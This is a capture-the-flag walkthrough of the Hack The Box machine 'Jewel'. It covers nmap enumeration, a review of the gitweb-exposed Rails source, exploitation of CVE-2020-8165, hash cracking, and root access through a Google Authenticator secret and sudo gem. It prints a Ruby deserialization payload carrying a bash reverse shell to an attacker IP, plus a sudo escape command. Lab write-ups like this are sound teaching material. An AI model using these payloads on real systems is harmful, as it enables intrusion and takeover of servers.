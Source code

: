 ```yaml
---
title: Jewel
author:
  name: kill5witch
  link: https://github.com/an9k0r
date: 2021-01-11 11:33:00 +0200
categories: [HackTheBox, Linux]
tags: [Linux, Ruby, Git Abuse, Source Code Review, Google Authenticator]
math: true
mermaid: true
image:
  src: /assets/images/2022-03-07-20-47-49.png
  width: 694
  height: 515
  alt: image alternative text
---
```

**Jewel is a medium Windows box. It's main part is Source Code Review.**
# ENUMERATION

## NMAP

Let's start NMAP:
```
		Nmap scan report for 10.10.10.211
		Host is up (0.040s latency).
		Not shown: 997 filtered ports
		PORT     STATE SERVICE VERSION
		22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
		| ssh-hostkey: 
		|   2048 fd:80:8b:0c:73:93:d6:30:dc:ec:83:55:7c:9f:5d:12 (RSA)
		|   256 61:99:05:76:54:07:92:ef:ee:34:cf:b7:3e:8a:05:c6 (ECDSA)
		|_  256 7c:6d:39:ca:e7:e8:9c:53:65:f7:e2:7e:c7:17:2d:c3 (ED25519)
		8000/tcp open  http    Apache httpd 2.4.38
		|_http-generator: gitweb/2.20.1 git/2.20.1
		| http-methods: 
		|_  Supported Methods: GET HEAD POST OPTIONS
		| http-open-proxy: Potentially OPEN proxy.
		|_Methods supported:CONNECTION
		|_http-server-header: Apache/2.4.38 (Debian)
		| http-title: 10.10.10.211 Git
		|_Requested resource was http://10.10.10.211:8000/gitweb/
		8080/tcp open  http    nginx 1.14.2 (Phusion Passenger 6.0.6)
		| http-methods: 
		|_  Supported Methods: HEAD POST OPTIONS
		|_http-server-header: nginx/1.14.2 + Phusion Passenger 6.0.6
		|_http-title: BL0G!
		Service Info: Host: jewel.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see that host's name is jewel.htb which can be put into the /etc/hosts file. Apart from that there are two Web Services running

## WebServer (manual Enum)

On port 8000 there is gitweb running that isn't vulnerable but it enables us to take a peak into the source code from the webservice running on port 8080.

Checking the bd.sql there are some usernames/passwords from potential users.

![](/assets/images/image (187).png)

Bruteforcing didn't work against rockyou.txt.

Lets check the Gemfile:

![](/assets/images/image (202).png)

Checking the Versions in Gemfile of Ruby and Rails revealed that Rails are running older vulnerable version (5.2.2.1) and there is PoC already written: [https://github.com/masahiro331/CVE-2020-8165](https://github.com/masahiro331/CVE-2020-8165)

[https://groups.google.com/g/rubyonrails-security/c/bv6fW4S0Y1c?pli=1](https://groups.google.com/g/rubyonrails-security/c/bv6fW4S0Y1c?pli=1)

![](/assets/images/image (203).png)

Checking the source code, raw user input is allowed and will be parsed...

![](/assets/images/image (204).png)

Checking the source code, vulnerable code is present in Update function.

```
  32   def update
  33     @user = User.find(params[:id])
  34     if @user && @user == current_user
  35       cache = ActiveSupport::Cache::RedisCacheStore.new(url: "redis://127.0.0.1:6379/0")
  36       cache.delete("username_#{session[:user_id]}")
  37       @current_username = cache.fetch("username_#{session[:user_id]}", raw: true) {user_params[:username]}
  38       if @user.update(user_params)
  39         flash[:success] = "Your account was updated successfully"
  40         redirect_to articles_path
  41       else
  42         cache.delete("username_#{session[:user_id]}")
  43         render 'edit'
  44       end
  45     else
  46       flash[:danger] = "Not authorized"
  47       redirect_to articles_path
  48     end
  49   end
```

So we can exploit the application running on port 8080. So let's do that next.

# EXPLOITATION

## RAILS (Vulnerable to RCE - CVE-2020-8165)

Following exploit will be used: [https://github.com/masahiro331/CVE-2020-8165](https://github.com/masahiro331/CVE-2020-8165)

We need to register, login and change the username. Fetching the request in Burp:

![](/assets/images/image (205).png)

Create payload using ruby - i used version 2.7.2 but i had to run "bundle install" first

```
$ bundle exec rails console

irb(main):> code = '`bash -c "bash -i >& /dev/tcp/10.10.14.10/9999 0>&1"`'
irb(main):> erb = ERB.allocate
irb(main):> erb.instance_variable_set :@src, code
irb(main):> erb.instance_variable_set :@filename, "1"
irb(main):> erb.instance_variable_set :@lineno, 1
irb(main):> payload=Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)
irb(main):>
irb(main):> puts "Payload"
irb(main):> require 'uri'
irb(main):> puts URI.encode_www_form(payload: payload)
```

Put the payload that was printed by the script into username. (im not sure if it is better to do this in repeater):

![](/assets/images/image (206).png)

If everything has been done correctly reverse shell should pop.

![](/assets/images/image (207).png)

# PRIVILEGE ESCALATION

## Enumeration

After shell was popped. i fired up linpeas.sh. Long story short -there was interesting file found in /var/backups dump\_2020-08-27.sql

Two new hashes for bill and jennifer users will be revealed and one of that can be bruteforced (hashcat mode 3200 (bcrypt)):

![](/assets/images/image (188).png)

Bill's credentials work with SSH.

## Google Authenticator

After logging in with bill .google\_authenticator can be found in its home directory.&#x20;

```
bill@jewel:~$ cat .google_authenticator
2UQI3R52WFCLE6JTLDCSJYMJH4
```

That string 2UQ... is a  secret that is being used to issue one time password.

I installed the authenticator into the chrome and the code was issued (i live in EU but if you live in other places you may need to adjust the time!)

![](/assets/images/image (189).png)

So i was able to run _sudo gem open -e "/bin/sh -c /bin/sh" rdoc_ and get root privileges

![](/assets/images/image (191).png)